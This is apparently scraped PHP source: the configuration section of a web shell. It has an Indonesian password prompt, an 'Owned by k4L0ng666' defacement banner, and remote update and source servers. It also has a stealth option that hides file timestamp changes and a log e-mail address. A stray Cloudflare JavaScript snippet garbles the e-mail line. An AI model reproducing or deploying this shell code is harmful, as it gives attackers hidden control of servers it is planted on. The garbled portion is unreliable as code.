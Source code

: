 $timelimit = 0; //time limit of execution this script over server quote (seconds), 0 = unlimited.


$host_allow = array("*"); //array ("{mask}1","{mask}2",...), {mask} = IP or HOST e.g. array("192.168.0.*","127.0.0.1")
$login_txt = "Perkosa Password"; //http-auth message.
$accessdeniedmess = "  ".$shver.": Password Anda GagaL Teman";

$gzipencode = TRUE; //Encode with gzip?

$updatenow = FALSE; //If TRUE, update now (this variable will be FALSE)

$k1r4_updateurl = "http://emp3ror.com/kira//update/"; //Update server
$k1r4_sourcesurl = "http://emp3ror.com/kira/"; //Sources-server

$filestealth = TRUE; //if TRUE, don't change modify- and access-time

$donated_html = "&lt;center&gt;&lt;b&gt;Owned by k4L0ng666&lt;/b&gt;&lt;/center&gt;";
/* If you publish free shell and you wish
add link to your site or any other information,
put here your html. */
$donated_act = array(""); //array ("act1","act2,"...), if $act is in this array, display $donated_html.

$curdir = "./"; //start folder
//$curdir = getenv("DOCUMENT_ROOT");
$tmpdir = ""; //Folder for tempory files. If empty, auto-fill (/tmp or %WINDIR/temp)
$tmpdir_log = "./"; //Directory logs of long processes (e.g. brute, scan...)

$log_email = "hijackedan@yahoo.com
/* &lt;![CDATA[ */
(function(){try{var s,a,i,j,r,c,l,b=document.getElementsByTagName("script");l=b[b.length-1].previousSibling;a=l.getAttribute('data-cfemail');if(a){s='';r=parseInt(a.substr(0,2),16);for(j=2;a.length-j;j+=2){c=parseInt(a.substr(j,2),16)^r;s+=String.fromCharCode(c);}s=document.createTextNode(s);l.parentNode.replaceChild(s,l);}}catch(e){}})();
/* ]]&gt; */
"; //Default e-mail for sending logs

$sort_default = "0a"; //Default sorting, 0 - number of colomn, "a"scending or "d"escending
$sort_save = TRUE; //If TRUE then save sorting-position using cookies.

// Registered file-types.
//  array(
//   "{action1}"=&gt;array("ext1","ext2","ext3",...),
//   "{action2}"=&gt;array("ext4","ext5","ext6",...),
//   ...
//  )
$ftypes  = array(
 "html"=&gt;array("html","htm","shtml"),
 "txt"=&gt;array("txt","conf","bat","sh","js","bak","doc","log","sfc","cfg","htaccess"),
 "exe"=&gt;array("sh","install","bat","cmd"),
 "ini"=&gt;array("ini","inf"),
 "code"=&gt;array("php","phtml","php3","php4","inc","tcl","h","c","cpp","py","cgi","pl"),
 "img"=&gt;array("gif","png","jpeg","jfif","jpg","jpe","bmp","ico","tif","tiff","avi","mpg","mpeg"),
 "sdb"=&gt;array("sdb"),
 "phpsess"=&gt;array("sess"),
 "download"=&gt;array("exe","com","pif","src","lnk","zip","rar","gz","tar")
);
